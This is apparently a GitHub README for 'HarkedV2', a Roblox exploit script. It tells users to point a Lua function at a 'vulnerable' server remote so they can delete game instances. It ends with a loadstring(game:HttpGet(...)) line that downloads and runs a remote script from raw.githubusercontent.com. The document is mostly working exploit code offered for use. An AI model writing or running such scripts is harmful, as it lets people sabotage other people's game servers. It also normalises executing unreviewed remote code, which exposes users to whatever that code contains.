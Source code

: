 # HarkedV2
Fixed version of 'Harked' by Harkinian. Made the ability to customize the deletion remote.

To run, edit the following script accordingly, and then execute:
```lua
local function Destroy(a: Instance)
    local _G = getgenv()

    local args = { -- Change the arguments depending on how the remote works.
        [1] = "Destroy",
        [2] = a
    }
    
    if _G.rem:IsA("RemoteEvent") then
        _G.rem:FireServer(unpack(args))
    elseif _G.rem:IsA("RemoteFunction") then
        _G.rem:InvokeServer(unpack(args))
    elseif _G.rem:IsA("UnreliableRemoteEvent") then
        _G.rem:FireServer(unpack(args))
    end
end

getgenv().rem = game.ReplicatedStorage.Remotes["DeleteRemoteExample"] -- Change this to whatever remote is vulnerable for deletion
getgenv().Destroy = Destroy

loadstring(game:HttpGet("https://raw.githubusercontent.com/qtip-rbxl/HarkedV2/main/main.lua", true))()
```
